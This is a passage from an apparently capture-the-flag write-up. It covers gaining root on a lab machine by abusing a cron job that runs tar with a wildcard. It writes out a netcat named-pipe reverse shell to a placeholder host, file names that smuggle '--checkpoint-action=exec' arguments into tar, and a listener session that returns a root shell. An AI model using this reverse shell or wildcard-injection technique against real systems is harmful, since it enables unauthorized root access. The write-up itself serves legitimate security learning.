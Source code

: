 ```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
#
```

Now, see that wildcard at the end? That's bad. A quick google search for "wildcard crontab privesc" reaveals why - tar allows user to execute commands (in this case as root) if provided with certain flags. And due to the way the wildcard is interpreted, we can prodide these flags as file names. So what we are going to do is:

1) create a script (let's call it `not_a_shell.sh`) which creates a reverse shell to our box
2) exploit the checkpoint argument (for more info, `man tar` or [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)) to set up the action and run it

In this case our action is going to be running our `not_a_shell.sh` script. Putting it all together, let's move into `/home/spooky` and:

Create `not_a_shell.sh` script with a reverse shell:

```
echo "mkfifo /tmp/zzz; nc <IP> <PORT> 0</tmp/zzz | /bin/sh >/tmp/zzz 2>&1; rm /tmp/zzz" > not_a_shell.sh
```

Create and invoke the checkpoint:
```
echo "" > "--checkpoint-action=exec=sh not_a_shell.sh"
echo "" > --checkpoint=1
```

Give it a minute, and finally you should get a shell back as root:

```
$ nc -lvp 9090
listening on [any] 9090 ...
10.10.27.73: inverse host lookup failed: Unknown host
connect to [10.8.78.207] from (UNKNOWN) [10.10.27.73] 56786
id 
uid=0(root) gid=0(root) groups=0(root)
whoami
root
wc -l /root/flag.txt
1 /root/flag.txt
```

Overall it was a nice box, with a mix of easy crypto, web hacking and reversing.
